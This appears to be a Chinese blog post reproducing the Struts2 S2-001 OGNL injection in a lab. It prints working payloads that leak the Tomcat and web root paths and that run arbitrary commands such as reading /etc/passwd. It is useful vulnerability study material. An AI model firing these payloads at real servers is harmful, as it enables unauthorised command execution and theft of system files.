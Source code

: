 ```yaml
---
title: S2-001 远程代码执行漏洞
date: 2020-07-27 21:48:24
categories: 漏洞复现
tags: struts2
---
```


#### 背景

该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行。

<!--more-->

#### 获取tomcat执行路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![](http://cdn.laohuan.art/2020-07-27_21-31-50.png)

#### 获取Web路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![](http://cdn.laohuan.art/2020-07-27_21-33-14.png)

#### 任意命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](http://cdn.laohuan.art/2020-07-27_21-37-08.png)

通过改变`new java.lang.String[]{"cat","/etc/passwd"}`来执行任意命令

#### 参考链接

<https://github.com/vulhub/vulhub/blob/master/struts2/s2-001/README.zh-cn.md/>